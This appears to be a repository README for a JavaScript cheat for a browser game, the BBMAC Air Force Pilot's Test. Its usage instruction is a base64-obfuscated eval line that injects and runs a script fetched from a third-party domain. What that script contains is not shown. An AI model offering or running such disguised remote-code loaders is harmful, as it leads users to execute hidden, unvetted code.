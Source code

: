 # Air Force Pilot's Test Cheat
A JavaScript based cheat engine for the [BBMAC Air Force Pilot's Test](http://bbmac.net/game/skill_test.htm).

## Features
 - Enemies disappear on game start
 - Timer below player
 - Double click player to bring back enemies

## How to use
```eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ3NjcmlwdCcpO3NjcmlwdC5zcmMgPSAiaHR0cHM6Ly9jb3Ntb3Nib3QuZ2EvY2RuL0NvbnRlbnQvaW5qZWN0LmpzIjtkb2N1bWVudC5ib2R5LmFwcGVuZChzY3JpcHQpOw=='))```
